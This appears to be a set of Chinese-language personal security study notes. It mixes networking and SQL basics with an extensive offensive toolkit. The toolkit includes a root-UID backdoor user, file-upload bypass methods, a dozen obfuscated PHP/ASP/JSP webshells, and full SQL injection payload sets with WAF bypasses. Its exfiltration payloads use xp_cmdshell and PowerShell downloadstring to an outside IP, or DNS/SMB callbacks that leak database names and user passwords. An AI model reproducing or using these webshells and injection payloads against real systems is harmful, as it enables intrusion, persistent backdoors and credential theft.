





# 知识遗漏点

### linux计划任务

创建一个简单的 `sh` 脚本来实现开机后立即关机。按以下步骤操作：

1. 创建脚本文件：

   ```bash
   sudo nano /usr/local/bin/shutdown.sh
   ```

2. 在文件中输入以下内容：

   ```bash
   #!/bin/sh
   /sbin/shutdown -h now
   ```

3. 保存文件并退出编辑器。

4. 使脚本可执行：

   ```bash
   sudo chmod +x /usr/local/bin/shutdown.sh
   ```

5. 使用 `cron` 设置开机后执行脚本：

   ```bash
   sudo crontab -e
   ```

   添加以下行：

   ```bash
   @reboot /usr/local/bin/shutdown.sh
   ```

保存并退出。这样脚本会在每次开机时执行，导致系统立即关机。

****

### linux创建高权限用户

- 将用户添加到`wheel`组:

  - ```bash
    #创建用户
    useradd smile
    #修改密码
    passwd smile
    #将用户添加到wheel用户组
    usermod -g wheel smile
    ```

- 修改`sudoers`:

  - ```bash
    #在root权限下打开/etc/sudoers
    vim /etc/sudoers
    #加入下面这行
    smile ALL=(ALL) ALL
    ```

- 修改`passwd`文件

  - ```bash
    #在root权限下打开/etc/passwd,修改
    smile:x:0:1001::/home/smile:/bin/bash
    ```

------

### windows创建任务计划

开机就立即执行关机任务，可以通过 `schtasks` 创建一个在系统启动时立即触发的关机任务。这里的关键是将触发器设置为 "开机时" (`/sc onstart`)。

```cmd
schtasks /create /tn "AutoShutdownOnStart" /tr "shutdown /s /f /t 0" /sc onstart /ru System
```

1.解释：

- `/tn "AutoShutdownOnStart"`：任务名称为 "AutoShutdownOnStart"。
- `/tr "shutdown /s /f /t 0"`：任务执行的动作是立即关机（0秒延迟，强制关闭所有程序）。
- `/sc onstart`：设置任务在系统启动时触发。
- `/ru System`：任务使用系统账户运行，因此即使没有用户登录，它也会执行。

2.验证任务是否创建成功：

运行以下命令来确认任务是否创建：

```cmd
schtasks /query /tn "AutoShutdownOnStart"
```

------

### OSI模型

```php
//展示了TCP/IP协议模型的四个层次，从上到下依次是应用层、传输层、网络层和数据链路层。每个层次都有不同的功能和责任，它们共同构成了整个TCP/IP协议模型。

//在应用层（Application Layer），它负责处理应用程序之间的通信，例如浏览器与Web服务器之间的交互。应用层提供了各种协议，如HTTP、FTP和SMTP，用于支持不同的网络服务。

//传输层（Transport Layer）负责提供可靠的数据传输，确保数据包正确地从源端传送到目标端。传输层使用TCP（传输控制协议）或UDP（用户数据报协议）来建立连接、管理数据流和错误检测。

//网络层（Network Layer）负责将数据包从源端路由到目标端。它使用IP（互联网协议）来确定数据包的最佳路径，并处理分组、寻址和路由等功能。

//数据链路层（Data Link Layer）负责在物理媒介上传输数据包，如以太网或Wi-Fi。它处理物理连接、帧同步和错误检测等任务。

```

```php
//物理层:接收信号并将其转化成比特流,传递给数据链路层
//数据链路层:接收数据帧,去除数据链路层头部和尾部,将数据包传递给网络层
//网络层:接收数据包,去除网络层头部,将报文段传递给传输层
//传输层:接收报文段,去除传输层头部,将数据传递给应用层
//应用层:接收数据并交给应用程序处理
```

```php
//假设一台计算器通过浏览器请求一个网页

//应用层:浏览器(http协议)生成http请求,传递给传输层
//传输层:传输层(tcp协议)将http请求封装成tcp段,传递给网络层
//网络层:网络层(IP协议)将TCP段封装成ip包,传递给数据链路层
//数据链路层:数据链路层(以太网协议)将ip封装成以太网帧,传递给物理层
//物理层:物理层将以太网帧转换成电信号,通过网络传输到目的地

//在接收端

//物理层:接受电信号并转化成比特流,传递给数据链路层
//数据链路层:接收以太网帧,去除头部和尾部,传递ip包给网络层
//网络层:接受ip包,去除头部,传递tcp段给传输层
//传输层:接收tcp段,去除头部,传递http请求给应用层
//应用层:接收http请求,web服务器处理请求并生成响应


//路由器(网络层)能进行网络寻址,交换机不能
```

****

### 数据库的增删查改

- `varchar`和`char`的区别:`varchar`为可变长度的字符串,存储什么就是什么.而`char`长度固定,如果长度端则会用`空格`补充

```sql
#创建数据库
create database if not exists students;

#删除数据库
drop database students;

#创建表
mysql> create table users(
    -> id int auto_increment primary key,
    -> name varchar(50) not null);
Query OK, 0 rows affected (0.01 sec)

#插入数据
insert into users(id,name) values(1,'sunhua');

#查询数据
select * from users where id=1;

#删除数据
delete from users where id=1;
```

------

### 子网掩码划分

```php
/*
  (假定一个ip网段如何合理划分) -->192.168.71.0/24 假定有8个班共同使用
  1.确定子网掩码前24位作为网络部分,后8位作为主机部分,要划分成8个子网,需要扩展主机位
  2.确定新的子网掩码:每个子网需要至少2个可用的主机地址(一个用作网络地址,一个用作广播地址),因此我们需要确定新的子网掩码
  3.初始的子网掩码是/24,要将网络划分成8个子网,我们至少需要3位作为子网部分,3位可以表示为8个不同的子网(000,001,010,011,100,101,110,111)

即新的子网掩码为/27-->255.255.255.224(27个1,即11111111.11111111.11111111.11100000,2^7+2^6+2^5=224)
  
  4.确定子网范围:根据新的子网掩码,计算出原始网络起始地址为 192.168.71.0 ,新的子网掩码是/27,所以每个子网的范围是(2^5=32)个IP地址
  
  最终分配的IP地址范围如下:
  子网1:192.168.71.0~192.168.71.31
  子网2:192.168.71.32~192.168.71.63
  子网3:192.168.71.64~192.168.71.95
  子网4:192.168.71.96~192.168.71.127
  子网5:192.168.71.128~192.168.71.159
  子网6:192.168.71.160~192.168.71.191
  子网7:192.168.71.192~192.168.71.223
  子网8:192.168.71.224~192.168.71.255
  
 */
```

------

### php文件上传绕过

- 1.前端验证,`js禁用`,`修改js`,`修改文件后缀`

- 2.mine验证,修改`content-type` --> filename="1.php" content-type="image/jpeg"

- 3.`黑名单验证`特殊后缀,`php3,php5 ....`

- 4.`.htaccess解析绕过`,将根目录下的所有文件解析为php文件

  - ```css
    <FilesMatch ".jpg">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```

- 5.`大小写绕过`,修改文件后缀,`php的特性:文件名不区分大小写(PHP)`

- 6.`黑名单验证`空格绕过(windows环境),方法:`抓包文件名后缀添加空格,由于windows特性会去除空格`,`点`,`:1.jpg`,`::$DATA`

- 7.`黑名单验证`点号绕过,方法:在`文件名后缀`添加`.`

- 8.`黑名单验证`特殊字符`::$DATA`绕过(windows)

- 9.`00截断`,在后缀名后添加`%00`(get型)

- 10.`00截断`抓包在16进制里添加一个占位符`1.phpa`,找到`a的16进制修改为00`

- 11.图片马

  - ```cmd
    copy 1.jpg/b + 2.php/a 3.jpg
    ```
  
- 12.`文件幻数`

  - | 图片格式 | 文件幻数                |
    | -------- | ----------------------- |
    | PNG      | 89 50 4E 47 0D 0A 1A 0A |
    | JPG      | FF D8 FF E0 00 10 4A 46 |
    | GIF      | 47 49 46 38 39 61       |

- 13.常见`文件头`

  - | 文件类型       | 文件头                                            |
    | -------------- | ------------------------------------------------- |
    | jpeg  jpg  png | JPGGraphic File                                   |
    | GIF            | GIF89a                                            |
    | doc  xls  ppt  | MS Compound Document v1 or Lotus APProach APRfile |
    | zip            | Zip Compressed                                    |


##### 文件上传防御

- 采用`白名单`策略,严格限制文件上传的后缀名
- 进行`二次渲染`,过滤图片马中的恶意代码
- 上传文件`重命名`,尽量少的从客户端获取信息
- 避免`文件包含`漏洞
- 严格处理文件路径,防御`00截断`漏洞,避开`空格`,`点`,`::DATA$`等windows特性

------

### webshell及变形

#### 命令执行函数

> `system()`,`exec()`,`shell_exec()`,`passthru()`,`popen()`,`反引号`  --> 6种

#### 代码执行的函数

> `eval`,`assert`,`preg_replace`,`create_function`,`array_map`,`asort`,`call_user_func`,`call_user_func_array`,`array_filter` --> 9种

- `eval()`

```php
// ?a=phpinfo();
<?php @eval($_GET['a']);?>
    
<?=eval($_POST[1])?>
    
<script language="php">@eval($_POST[1]);?></script>
    
    name=1'ununionion selselectect 1,2,3,"<?php @eval($_POST[1]);?>" into outfile "/var/www/html/upload/sh.php" #&submit=Submit
```

- `assert()`

```php
// ?b=phpinfo();
<?php @assert($_POST['b']);?>
```

- `preg_replace()`

```php
// ?c=phpinfo();
</php @preg_replace("/abc/e",$_REQUEST['c'],"abc"):?>
```

- `create_function()`

```php
// ?d=phpinfo();
<?php
$func=create_function("",$_REQUEST['d']);
$func()
?>
```

- `array_map()`

```php
// ?e=system&cmd=whoami&ip=ipconfig
<?php
$func1=$_REQUEST['e'];
$cmd=$_REQUEST['cmd'];
$ip=$_REQUEST['ip'];
$array[0]=$cmd;
$array[1]=$ip;
$new_array=array_map($func1,$array);
?>
```

- `array_filter()`

```php
// ?f=system&whoami
<?php
$who=$_REQUEST['who'];
$array1=array($who);
$func2=$_REQUEST['f'];
@array_filter($array1,$func2);
?>
```

#### webshell绕过

- PHP一句话木马

```php
<?php @eval($_POST['cmd']);?>
```

- ASP一句话木马

```jsp
<%eval request("cmd")%>
```

- JSP一句话

```jsp
<% @page language="java"
	Runtime.getRuntime().exec(request.getParameter("cmd"));
%>
```

- aspx

```asp
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["pass"],"unsafe"));%>
```

> 绕过(`关键字查找`,`关键字替换`,`编码替换`,`操作符`,`更换数据来源`,`嵌套`,`更换标签(script)`,`字符串组合`,`自定义类`,`自定义函数`,`魔术方法`,`匿名方法`,`异或运算`)  --> 13种

- `关键字查找`(str_replace)

```php
<?php
$a=str_replace("abc","","aabcsabcsabceabcrabct");
@$($_REQUEST['cmd']);
?>
```

- `关键字替换`(str_replace)

```php
<?php
$b="assexx";
$c=str_replace("xx","rt",$b);
@[""=>$c($_GET[_])];
?>
```

- `编码替换`(base64-decode)

```php
<?php
$a=base64_decode("YXNzZXJ0");
$a($_REQUEST['cmd']);
?>
```

- `操作符`

```php
<?php
$a="as"."se";
$b="r"."t";
$c=$a.$b;
$c($_REQUEST['cmd']);
?>
```

- `更换数据源`

```php
// ?a=assert&cmd=phpinfo();
<?php
$_REQUEST[a]($_REQUEST['cmd']);
?>
```

- `嵌套$_REQUEST`

```php
// ?b=cmd&cmd=phpinfo();
<?php
@assert($_REQUEST[$_REQUEST['b']]);
?>
```

- `替代<.??>标签`

```php
<script language="php">
	@assert($_REQUEST['cmd']);
</script>
```

- `字符串组合`

```php
<?php
$str='abcsqebrt';
$a=$str[0].$str[3].$str[3].$str[5].$str[7].$str[8];
@$a($_REQUEST['cmd']);
?>
```

- `自定义函数`

```php
<php
function admin($a){
	@eval($a);
}
admin($_REQUEST['admin']);
?>
```

- `自定义类`

```php
<?php
class Webshell{
	function admin($a){
		@eval($a);
	}
}
$web= new Webshell();
$web->admin($_REQUEST['admin']);
?>
```

- `魔术方法`-->`__construct()`,`__destruct()`,`__wakeup()`,`__toString()`

```php
// ?name=phpinfo();
<?php
class Student{
	public $xw=null;
	public $xl=null;
	function __construct(){
		$this->xw="riny(\$_REQUEST['anzr'])";
		@assert($this->xl);
	}
}
new Student();
```

- `创建匿名方法`

```php
<?php
$fun1=create_function('$a,$b','return($a+$b);');
echo $func1(10,20);
?>
```

- `异或运算`

------

### SQL注入(3306)

> 分类 --> 11种(搜索型,字符型,整数型)

#### `联合查询注入`

```sql
#查询字段数
?id=-1'order by 4 --+
#判断回显点
?id=-1'union select 1,2,3 --+
#获取数据库名
?id=-1'union select 1,2,database()--+
#获取表名
?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
#获取users表字段名
?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"--+
#获取所有数据
?id=-1'union select 1,2,group_concat(id,username,password) from security.users--+
```

------

#### `报错注入`

> 相关函数`extractvalue`,`updatexml`,`floor`,`name_const`,`exp`,`json_type`,`json_extract`,`json_array_append`,`multipoint`,`linestring`,`multilinestring`,`polygon`

- `extractvalue`

```sql
# extractvalue(arg1,arg2)
#获取数据库名
?id=1'and extractvalue(1,concat(0x3a,database(),0x3a))--+
#获取表名
?id=1'and extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a)) --+
#获取users表的字段
?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="users"),0x3a)) --+
#获取所有数据
?id=-1'union select 1,2,select table_name from information_schema.tables where table_schema=database()--+
```

- `updatexml`-->跟`extractvalue`一样,不同点就是多了个参数,`updatexml(arg1,arg2,arg3)`
- `floor(rand(0)*2)`-->对生成的0-2之间的随机数向下取整,2条记录可能报错

```sql
#获取数据库名
?id=1' and (select 1 from (select count(*), concat(database(), floor(rand(0)*2)) as x from information_schema.tables group by x)a)--+
```

- `name_const(name,value)`

```sql
#获取数据库版本信息
?id=1'and (select * from (select name_const(version(),1),name_const(version(),1))a)--+
```

- `exp`-->整形溢出,是以`e`为底的指数函数,参数大于`709`时会溢出

```sql
#显版本信息
?id=1'and exp(~(select * from (select version())a))--+
```

- `multipoint`

```sql
#获取数据库版本信息
?id=1'and (select multipoint((select * from(select * from(select * from(select version())a)b)c)))--+
```

- `json`

```sql
#json_type
?id=1'and json_type(version())--+

#json_extract(json_doc,path[,path])
?id=1'and json_extract(user(),'$.a')--+

#json_array_append()
?id=1'and json_array_append('[1,2,3]',user(),1) --+
```

------

#### `布尔盲注`

> 相关函数`substr`,`substring`,`mid`,`left`,`right`,`length`,`ascii`

```sql
#判断数据库名长度-->n为数据库名长度
?id=1'and length(database())=n --+ 

#获取数据库名称
?id=1'and (substr(database(),1,1))='s'--+

#获取第一张表名长度
?id=1'and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6)--+

#获取表的个数-->m为表的个数
?id=1'and (select count(*) from information_schema.tables where table_schema=database())=m --+

#获取表名
?id=1'and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)="m")--+

#获取字段个数(id,username,password)
?id=1'and ((select count(*) from information_schema.columns where table_schema=database() and table_name="users")=3)--+

#获取字段长度(id)
?id=1'and (length((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 0,1))=2)--+

#获取字段名(users-->"s") 这里直接对字符进行猜解,注意 `limit 1,1),2,1` 里面的第三个数字是从1开始
?id=1' and substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 1,1),2,1) = "s" --+

#获取数据
?id=-1'union select 1,2,(select group_concat(id,username,password) from security.users) --+
```

------

#### `时间盲注`

> 相关函数`sleep`,`benchmark`

```sql
#获取数据库名长度(security)
?id=1'and if((length(database()))=8,sleep(10),0) --+

#获取数据库名称(第一个"s")
?id=1'and if((substr(database(),1,1))="s",sleep(5),0)--+

#获取表的个数
?id=1'and if((select count(*) from information_schema.tables where table_schema=database())=4,sleep(3),0)--+

#获取表名长度
?id=1'and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6,sleep(3),0)--+

#获取表名(email-->'e')
?id=1'and if(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)='e',sleep(3),0) --+

#获取字段个数-->3
?id=1'and if((select count(*) from information_schema.columns where table_schema=database() and table_name="users")=3,sleep(3),0)--+

#获取字段名
?id=1' and if(substr((select column_name from information_schema.columns where table_schema=database() and table_name="users" limit 1,1),2,1)="s",sleep(3),0) --+
```

------

#### `数据外带`

> 外带常用平台
>
> http://dnslog.cn/
>
> http://eyes.sh/
>
> http://ceye.io/
>
> `Burp Collaborator` 

| 方式                                  | 简介                    |
| :------------------------------------ | ----------------------- |
| secure_file_priv                      | 拥有读写权限            |
| secure_file_priv=""                   | 可以读取任何目录        |
| secure_file_priv='/var/www/html'      | 可以读取指定文件        |
| secure_file_priv=null                 | 不能加载文件            |
| show global variables like "%secure%" | 查看mysql是否有写的权限 |

```cmd
//数据外带条件
1.Windows操作系统
2.secure_file_priv 不为空

//DNS数据外带
id=1'and load_file(concat('\\\\',(select database()),'.34ab77c4.log.dnslog.store.\\abc')) --+
```

```cmd
//SMB数据外带
命令:yum install samba -y
修改配置文件:vim /etc/samba/smb.conf
默认samba日志路径:/var/log/samba/log.smbd


//利用实时查看日志并匹配结果
tail -f /var/samba/log.smbd | grep "failed to find service"

//smb数据外带实验
id=1'and load_file(concat('\\\\192.168.1.1\\',(select user()),'t'))%23

id=1'and load_file(concat('\\\\192.168.1.1\\',(select group_concat(schema_name from information_schema.schemata),'t')))%23

id=1'and load_file(concat('\\\\192.168.1.1\\',(select group_concat(username,':',password) from security.users),'t'))%23


//DNS数据外带和SMB数据外带优缺点
优点:
- dns数据外带,在极限条件下(内网机器不出网,支持dns出网),规避流量检测设备,可以用dnslog外带数据
- smb外带数据,在默认支持tcp|udp出网方式,可用无长度限制和符号限制,规避流量检测设备

缺点:
- dns外带数据:在符号长度有限制,61长度限制,*@#$%不支持敏感符号,需要转码数据外带
- smb数据外带,默认要允许tcp出网
```


##### DNS数据外带

- 在极限条件下(内网机器不出网,支持dns出网,隐匿性高,不容易被拦截),61长度限制,不支持敏感符号,外带数据需要转码,规避流量检测设备

##### 获取数据库名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_dirtree "//'%2B@a%2B'.qu4mx7.dnslog.cn//a"') --+
```


##### 获取表名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 table_name from information_schema.tables where table_name not in(select top 4 table_name from information_schema.tables));exec('master..xp_dirtree "//'%2B@a%2B'.06z43e.dnslog.cn//a"') --+
```


##### 获取字段名

```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 1 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn//a"') --+
```


```sql
http://192.168.100.226/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 column_name from information_schema.columns where table_name='users' and column_name not in(select top 2 column_name from information_schema.columns where table_name='users'));exec('master..xp_dirtree "//'%2B@a%2B'.fi2j4m.dnslog.cn//a"') --+
```


##### 获取数据

```sql
id=1';declare @a varchar(8000);set @a=(select top uagent from emails) ;exec('master..xp_cmdshell "ping.exe '%2b%@a%2b'.Laffrex.eyes.sh -n 1"') --+
```

------

##### HTTP数据外带

##### 获取数据库名

```sql
id=1';declare @a varchar(8000);set @a=db_name();exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```


##### 获取表名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 table_name from information_schema.tables);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```


##### 获取字段名

```sql
id=1';declare @a varchar(8000);set @a=(select top 1 column_name from information_schema.columns);exec('master..xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring(''http://192.168.71.63:8000?data='%2b@a%2b''')"') --+
```


------

##### SMB数据外带

- 默认支持TCP/UDP出网方式时可用,无长度限制和符号限制,规避流量检测设备
- CentOS 7安装SMB服务

```bash
#安装smb服务
yum install samba -y
#修改配置文件
vim /etc/samba/smb.conf
#修改samba日志路径
vim /var/log/samba/log.smba
#利用实时查看日志并匹配结果
tail -f /var/log/samba/log.smbd | grep "failed to find service"
```

------

#### `宽字节注入`

> 使用`gbk`编码,2个字符为一个汉字,第一个字节是`129-254`,第二个字节是`64-254`

```sql
#payload
?id=1%df order by 3 --+
```

------

#### `http头注入`

- 用户提交的HTTP请求包的头信息未作过滤,直接带入数据库执行,可通过http头参数修改检测是否存在漏洞
- 原因:在网页代码种的`ip`字段与数据库有交互,或代码中存在超全局变量`$_SERVER[]`

| 参数                 | 含义                     |
| -------------------- | ------------------------ |
| http_host            | 获取当前域名             |
| http_user_agent      | 获取用户相关信息         |
| http_accept          | 当前请求的accept头部信息 |
| http_cookie          | 浏览器的cookie信息       |
| server_addr          | 服务器的ip地址           |
| remote_addr          | 浏览网页的用户IP         |
| http_x_forwarded_for | 浏览网页的用户IP         |
| http_client_ip       | 浏览网页的用户IP         |
| script_filename      | 当前执行脚本的绝对路径   |

------

#### `二次编码注入`

> 使用`%2527`-->`'`

```sql
?id=-1%2527 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```

------

#### `base64注入`

```sql
# -1'union select 1,2,3 --+
  LTEndW5pb24gc2VsZWN0IDEsMiwzIC0tKw==
```

------

#### `堆叠注入`

> 分号结束sql语句后继续构造下一个sql语句

- 条件:使用联合查询获取表名,列名,然后使用堆叠注入

```cmd
POST /Less-42/login.php HTTP/1.1
Host: 8.137.60.154:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
Origin: http://8.137.60.154:8082
Connection: keep-alive
Referer: http://8.137.60.154:8082/Less-42/
Cookie: X_CACHE_KEY=18b8d5e68c691a237ceb5842f0a3b017; PHPSESSID=4tjd6fh9h132u8udgbqpt1st67
Upgrade-Insecure-Requests: 1
Priority: u=0, i

login_user=1&login_password=1';insert into users(id,username,password) value('111','sunhua','sunhua') --+&mysubmit=Login
```

------

#### `二次注入`

> `注册账号利用第一次登录获取数据的案例`

- 已存储的用户输入被读取后,再次进入到sql查询语句中导致的注入
- `原理`:
  - 网站在对用户输入的恶意数据进行转义处理
  - 恶意数据插入到数据库时又被还原并存储到数据库中
  - 系统再次调用该恶意数据并执行sql查询时,被成功注入(因为调用时不会考虑转义问题)

------

### SQL注入WAF绕过

##### 大小写绕过

```sql
?id=-1'UoIoN SeLeCt 1,2,3 --+
```

##### 双写绕过

```sql
?id=-1'ununionion selselectect 1,2,3 --+
```

##### 字符串替换

| 字符 | 替换            |
| ---- | --------------- |
| and  | &&              |
| or   | \|\|            |
| =    | <>              |
| 空格 | %20(url编码)    |
| 空格 | %09(tab键,水平) |
| 空格 | %0a(换行符)     |
| 空格 | %0b(tab键,垂直) |
| 空格 | %0c(新的一页)   |
| 空格 | %0d(return功能) |
| 空格 | /**/            |

##### 特殊字符串拼接

```sql
?id=1;exec(master..xp_cmdshell'net user') --> id=1;exec('maste'+'r..xp'+'_cmdshell'+'"net user"')
```

##### 编码绕过

> `url编码`

```sql
# ?id=1'union select 1,2,3 --+
?id=1'%75%6e%69%6f%6e%20%73%65%6c%65%63%74 1,2,3 --+
```

> `unicode编码`

```sql
# ?id=1'union select 1,2,3 --+
?id=1'un%u0069on sel%u0065ct 1,2,3 --+
```

> `十六进制`

```sql
# ?id=1'union select 1,2,3 --+
?id=1'756e696f6e2073656c656374 1,2,3 --+
```

##### 注释绕过

> `普通注释`

```sql
# ?id=-1'union select 1,2,3 --+
  ?id=-1'/**/union/**/select 1,2,3 --+
  ?id=-1'/**/union/select 1,2,database/*%!a*/() -->使用/*%特殊符号*/的形式绕过/**/正则的过滤
```

> `内联注释`

- /*! code*/ 内联注释可用用于整个sql语句中

- 过滤了`union,where,table_name,table_schema,=,and,information_schema`等可用

```sql
/*!%23/*%0a关键字*/
/*!99999*/
```

##### 参数污染


##### 缓冲区溢出

- 许多waf使用c语言编写,而c语言没有缓冲区保护机制,测试向量时超出了其缓冲区的长度时,引发bug从而绕过

##### 分块传输绕过

- 将传输的内容分块时,处理后的http请求由于和已知的payload相差较大,所以可以起到绕过的作用


##### 特殊符号绕过

